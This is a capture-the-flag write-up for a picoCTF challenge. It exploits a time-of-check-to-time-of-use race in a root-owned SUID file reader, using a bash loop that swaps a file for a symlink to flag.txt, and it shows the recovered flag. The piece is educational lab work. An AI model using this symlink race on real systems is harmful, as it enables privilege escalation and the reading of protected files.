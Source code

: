 Essentially, the file first checks if the file exists, then checks if our permission to view the file. If we are allowed to view, it will read the file contents. It's also worth noting that `txtreader` has SUID bit set, allowing it to run as root when we use:
```
$ ls -l txtreader    
-rwsr-xr-x 1 root root 19016 Mar 16 02:28 txtreader
```
If we can send the textreader to open a file we have permissions on, then quickly swap it with a file linked to the flag, we should be able to trick the program into reading the flag contents for us. This is known as a Race Condition, or **TOCTOU** type of problem. 
[This video by John Hammond](https://youtu.be/HbCCrF9GOtQ) covers a similar CTF challenge, and the solution can be done with the same approach.
	1. We will create our own file called `link` with touch, that we can read/write to.
	2. We will start `txtreader`, and tell it to read `link`, which is owned by us.
	3. `txtreader` will check the file, and confirm we have permission to read the file
	4. We will delete `link`, and create a new `link` file that is symlinked to flag.txt. Now when things want to interact with `link`, they are pointed to flag.txt
	5. `txtreader` will attempt to read `link`, except it now points to `flag.txt`. Since it already confirmed we have permissions, it will output the contents of `flag.txt`
Since `txtreader` won't be waiting for us to manipulate the files in between actions, we have to be very fast, hence the race aspect.  Our human action speeds aren't nearly good enough, so what we can do is loop the action of swapping `link` , while also looping the run of `txtreader`. After enough runs, hopefully our action timings will line up and we can get the flag.
Making the link loop, `linker.sh`:
```
while true
do
	rm link
	touch link
	rm link
	ln -s /home/ctf-player/flag.txt link
done
```

Setting up the linker loop and running `txtreader`:
```
ctf-player@pico-chall$ chmod +x linker.sh 
ctf-player@pico-chall$ ./linker.sh 
rm: cannot remove 'link': No such file or directory
^Z
[1]+  Stopped                 ./linker.sh
ctf-player@pico-chall$ bg 1
[1]+ ./linker.sh &
ctf-player@pico-chall$ while [ 1 ]; do ./txtreader link; done 2>/dev/null
picoCTF{ToctoU_!s_3a5y_f482a247}
```
Overall while this method works, it is not very reliable. Sometimes you can get lucky and the flag is read after a few minutes of running, other times it had not succeeded once in the full 15min duration of the instance.

picoCTF{ToctoU_!s_3a5y_f482a247}

#### Potential Solution--Reliable race fixing?
It might be possible to "fix" the race for us, resulting in very reliable success of flag read. [This post](https://www.usenix.org/legacy/events/fast08/tech/full_papers/tsafrir/tsafrir_html/index.html)  describes using a filesystem maze too large for the system to handle in memory at once, allowing for a more clear window of opportunity for us to switch targets. 
The maze consists of many nested folders, containing symlinks pointing to another batch of nested folders. After repeating for x times, the final link points to the file we own. The maze is too large to be placed in the filesystem cache, and this process results in slower navigation and an increased delay between the action of checking permissions and the action of reading the file contents.
